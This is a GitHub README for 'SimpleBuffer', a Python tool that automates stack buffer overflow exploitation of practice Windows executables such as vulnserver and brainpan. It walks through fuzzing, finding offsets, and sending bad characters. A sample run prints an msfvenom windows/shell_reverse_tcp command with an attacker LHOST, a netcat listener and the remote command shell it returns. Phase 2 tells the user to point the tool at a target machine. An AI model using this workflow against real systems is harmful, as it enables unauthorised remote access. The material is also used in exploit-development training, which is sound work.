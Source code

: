 # SimpleBuffer
This script minimizes the time and effort to get your buffer overflow shell in few simple clicks.

`Usage: simplebuffer.py`

the script was tested on the follwoing samples:
* [brainpan.exe](https://github.com/freddiebarrsmith/Buffer-Overflow-Exploit-Development-Practice/tree/master/brainpan) by freddiebarrsmith
* [vulnserver.exe](https://github.com/stephenbradshaw/vulnserver) by stephenbradshaw
* [dostackbufferoverflowgood.exe](https://github.com/justinsteven/dostackbufferoverflowgood) by justinsteven

## Features:
* Fuzzing.
* Getting offset value.
* Supports prefix and postfix.
* Generates pattern
* Sends bad character.
* Auto assemble the paylaod.
* Auto generate an msfvenom reverse shell shellcode including nops.
* Sets up a netcat listener 
* Sends the payload to the target machine

## How to:
### Phase 1:
1. In order for the script to work, you need to get the return value using mona modules along with immunity debugger.
2. once you have the return value convert it to little endian format (ex: \xf3\x12\x17\x31) enter it inside the script in 'module' variable along with the target IP and port. *Note: if your executable requires a prefix or postfix enter it as well.*
3. Run immunity debugger in Windows 32 bit and load the executable file and press F9.
4. From your Kali, run the script, the script will start fuzzing until the program crashes.
5. In immunity debugger, check the EIP value it should read 41414141.
6. Relaod the executable in immunity debugger by pressing ctrl+F2, then go back to the script and press enter.
7. The value of the EIP should change, copy it and paste it in the script, then press ENTER.
8. The script will send badchars, find if any badchars are present. 
9. check for any bad character, if none type "\x00" or \x00 + badchars.
10. Finally, reload the executable in immunity debugger then go back to the script and press Enter, you should now get a shell. in case you did not get a shell add the offset value in the script and run it again.

### Phase 2:
if you got a shell working on your local envirment machine, you can now add your offset value in the script and change the IP to your target machine. the script will skip all previous processes and start generating the shellcode and connect to the target machine. 

## Usage:

`Usage: simplebuffer.py`
```
root@Kali:~/SimpleBuffer# python simplebuffer.py 
Starting SimpleBuffer at 18:31:14
SimpleBuffer report for 10.0.2.5
[+] Connected to host successfully
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes

[!] Possible overflow detected at 800 bytes                                                               
[!] The EIP value should now be 41414141
[!] Reload the program to get the return value and then press Enter : 
[!] Connecting ...
[+] Connected to host successfully
[!] Sending Pattern
[*] Enter the value of the EIP : 35724134
[!] Exact match found at 524
[!] Reload the program to get the badchars and then press Enter : 
[!] Connecting ...
[+] Connected to host successfully
[!] Sending badchars ...
[!] Your EIP value should now be 42424242
[!] Enter badchars or Type "x00" if no badchars found: \x00
[!] Generating shellcode ...
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.3 LPORT=4444 EXITFUNC=thread -f raw -a x86 --platform windows -n 32 --smallest -b \x00                                                                           
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=55, char=0x78)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
Attempting to encode payload with 1 iterations of x86/countdown
x86/countdown failed with Encoding failed due to a bad character (index=12, char=0x30)
Attempting to encode payload with 1 iterations of x86/fnstenv_mov
x86/fnstenv_mov succeeded with size 346 (iteration=0)
Attempting to encode payload with 1 iterations of x86/jmp_call_additive
x86/jmp_call_additive succeeded with size 353 (iteration=0)
Attempting to encode payload with 1 iterations of x86/xor_dynamic
x86/xor_dynamic failed with Encoding failed due to a nil character
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed failed with Encoding failed due to a bad character (index=32, char=0x30)
Attempting to encode payload with 1 iterations of x86/alpha_upper
x86/alpha_upper failed with Encoding failed due to a bad character (index=24, char=0x30)
Attempting to encode payload with 1 iterations of x86/nonalpha
x86/nonalpha failed with Encoding failed due to a bad character (index=50, char=0x30)
Attempting to encode payload with 1 iterations of x86/nonupper
x86/nonupper failed with Encoding failed due to a nil character
x86/fnstenv_mov chosen with final size 346
Successfully added NOP sled of size 32 from x86/single_byte
Payload size: 378 bytes

[+] Shellcode Generated !
[!] Reload the program get a shell or press ENTER if you added required values:
[!] Connecting ...
[+] Connected to host successfully
[!] Sending Payload
listening on [any] 4444 ...
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.5] 49820
Microsoft Windows [Version 10.0.19042.631]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\Windows10\Desktop>
```

### Notes:
- make sure pattern_create.rb is located in `/usr/share/metasploit-framework/tools/exploit/`
- scripts will run on <= Python 2.7
- the script uses eth0 as default network interface, change it if you have different network interface name.

Devoleped by Muhannad

